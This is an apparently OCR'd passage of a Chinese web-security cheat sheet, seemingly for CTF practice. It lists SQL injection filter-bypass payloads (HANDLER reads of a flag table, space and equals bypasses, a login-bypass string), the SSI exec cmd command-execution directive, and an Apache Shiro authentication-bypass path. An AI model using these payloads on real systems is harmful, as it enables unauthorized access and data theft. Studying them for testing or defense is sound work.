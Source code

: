 ```sql
handler table_name open as `a`; handler `a` read next; # 文件操作读取
HANDLER FlagHere OPEN; HANDLER FlagHere READ FIRST; HANDLER FlagHere CLOSE;
```

**空格绕过**

```php
# 使用()绕过, 或直接不输入空格
1' or 
1'(or)

select(group_concat(column_name))from(information_schema.columns)where(table_name)like('xxx'))
```

**等号绕过**

```php
# 使用 like 绕过 =, 万能密码修改
1'or((1)like(1))# 
```

**or绕过**

使用`^`可绕过



### SSI注入漏洞

- Server-Side Includes Injection，服务端包含注入，SSI赋予html静态页面动态效果
- 存在`.shtml, .stm, .shtm`网页上某部分变量可控，如下，通过远程命令注入动态回显

```html
<div>{$what}</div>
<p>{{username}}</p>
<div>{%$a%}</div>
```

**利用命令格式**

```js
<!--#exec cmd="command"-->
```



## JAVA

### Shiro漏洞

#### 身份验证绕过

Apache Shiro < 1.5.3

- Shiro 特征：响应数据包中`Set-Cookie: rememberMe=deleteMe;`
- 直接访问` /shiro/admin/page` 返回302跳转要求登录
- 访问 `/;/shiro/admin/page` 能绕过Shiro权限验证访问到/admin路由信息

